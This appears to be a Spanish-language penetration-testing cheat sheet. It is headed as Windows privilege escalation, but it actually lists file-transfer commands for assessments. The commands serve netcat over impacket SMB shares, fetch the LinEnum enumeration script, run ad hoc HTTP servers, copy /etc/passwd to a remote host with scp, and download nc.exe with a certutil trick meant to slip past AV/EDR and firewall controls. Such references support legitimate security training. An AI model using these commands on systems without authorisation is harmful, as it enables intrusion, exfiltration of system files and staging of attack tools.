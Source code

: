 # Escalación de Privilegios en Windows

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share\FILENAME /user:test test (windows)
```

### Web Download

```python
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Alternativas distintas
```python
python3 -m http.server
python2.7 -m SimpleHTTPServer
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload
```python
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

### Certuil Tranferir archivos
```python
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe (windows)
```
